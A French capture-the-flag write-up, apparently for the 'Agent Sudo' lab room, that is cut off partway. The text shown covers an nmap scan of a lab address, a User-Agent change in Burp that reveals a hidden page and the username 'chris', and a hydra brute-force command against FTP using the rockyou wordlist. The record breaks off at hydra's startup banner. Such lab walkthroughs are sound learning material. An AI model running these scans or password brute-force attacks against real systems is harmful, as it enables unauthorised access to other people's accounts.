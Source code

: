 ```yaml
---
# Agent Sudo
---
```

# Enumération 
## Nmap 

```sudo nmap -sS -sV 10.10.243.133 -o nmap.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-26 03:41 EST
Nmap scan report for 10.10.243.133
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel```

3 ports ouverts 

Port 80 : 
```Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R ```

Il faut donc changer l'user-agent pour accdéder au site web 

Indice : Remplacer l'User-Agent par C 

## Burp 

On change l'user Agent et ca nous donne une URL : agent_C_attention.php 

## [IP]/agent_C_attention.php

```Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R```

Nom de l'agent : **chris**

---

# Hashing Cracking & Brute Force
## FTP Password

brute force du mot de passe du FTP 

```hydra -t 4 -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.243.133 -o credsFTP.txt 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

```